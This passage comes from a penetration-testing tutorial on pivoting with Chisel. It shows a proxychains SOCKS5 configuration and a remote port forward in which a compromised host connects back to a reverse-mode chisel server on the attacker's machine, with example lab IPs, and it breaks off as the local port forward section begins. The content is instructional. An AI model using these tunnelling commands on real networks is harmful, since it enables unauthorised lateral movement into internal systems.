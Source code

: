 **Proxychains Reminder:**

When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from socks4 to socks5:

[ProxyList]

# add proxy here ...

# meanwhile

# defaults set to &quot;tor&quot;

socks5  127.0.0.1 1080



Now that we&#39;ve seen how to use chisel to create a SOCKS proxy, let&#39;s take a look at using it to create a port forward with chisel.

_ **Remote Port Forward:** _

A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:

./chisel server -p LISTEN\_PORT --reverse &amp;

Once again this sets up a chisel listener for the compromised host to connect back to.

The command to connect back is slightly different this time, however:

./chisel client ATTACKING\_IP:LISTEN\_PORT R:LOCAL\_PORT:TARGET\_IP:TARGET\_PORT &amp;

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the LISTEN\_PORT and the LOCAL\_PORT. Here the LISTEN\_PORT is the port that we started the chisel server on, and the LOCAL\_PORT is the port we wish to open on our own attacking machine to link with the desired target port.

To use an old example, let&#39;s assume that our own IP is 172.16.0.20, the compromised server&#39;s IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:

./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &amp;

Connecting back to our attacking machine, functioning as a chisel server started with:

./chisel server -p 1337 --reverse &amp;

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

_ **Local Port Forward:** _

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.
